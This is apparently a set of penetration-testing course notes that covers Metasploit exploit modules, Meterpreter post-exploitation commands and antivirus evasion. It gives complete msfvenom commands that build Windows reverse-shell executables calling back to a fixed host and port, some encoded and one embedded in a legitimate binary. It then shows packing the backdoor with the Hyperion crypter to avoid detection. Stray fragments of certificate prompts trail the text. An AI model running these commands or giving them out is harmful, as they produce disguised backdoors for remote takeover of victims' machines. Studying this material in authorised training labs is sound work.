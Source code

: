 ```text
$ mkdir -p ~/.msf4/modules/exploits/linux/misc

$ cd ~/.msf4/modules/exploits/linux/misc

$ cp /usr/share/metasploitframework/modules/exploits/linux/misc/gld_postfix.rb ./crossfire.rb
$ vim crossfire.rb
--- --> (script is on pg331)
```

### Meterpreter post exploitation fetures

```text
meterpreter > help
meterpreter > ?

msf exploit(handler) > search post

meterpreter > background        # or [ctrl-z]

msf exploit(handler) > use exploit/windows/local/service_permissions
```

## Bypassing AntiVirus Software

#### Unencoded

`msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.5 LPORT=4444 -f exe -o shell_reverse.exe`

#### skitata-ga-ni

`msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.5 LPORT=4444 -f exe -e x86/shikata_ga_nai -i 9 -o shell_reverse_msf_encoded.exe`

#### Embedded

`msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.5 LPORT=4444 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe`

### Crypting with software protectors - Hyperion

```text
$ cp shell_reverse_msf_encoded_embedded.exe backdoor.exe

$ cp /usr/share/windows-binaries/Hyperion-1.0.zip .

$ unzip Hyperion-1.0.zip

$ cd Hyperion-1.0/

$ i686-w64-mingw32-g++ Src/Crypter/*.cpp -o hyperion.exe
$ cp -p /usr/lib/gcc/i686-w64-mingw32/6.1-win32/libgcc_s_sjlj-1.dll .
$ cp -p /usr/lib/gcc/i686-w64-mingw32/6.1-win32/libstdc++-6.dll .
$ wine hyperion.exe ../backdoor.exe ../crypted.exe
```

{% hint style="info" %}
The most foolproof method of bypassing antivirus software protections is to use tools and binaries that are unknown to AV vendors, either by writing your own, or by finding and using unique payloads.
{% endhint %}

\*C reverse shell code from google search - pg343



[Unknown]: Ownage Dept
[Unknown]: Offensive Security
[Unknown]: localhost
[Unknown]: 127.0.0.1
[Unknown]: US
[no]: yes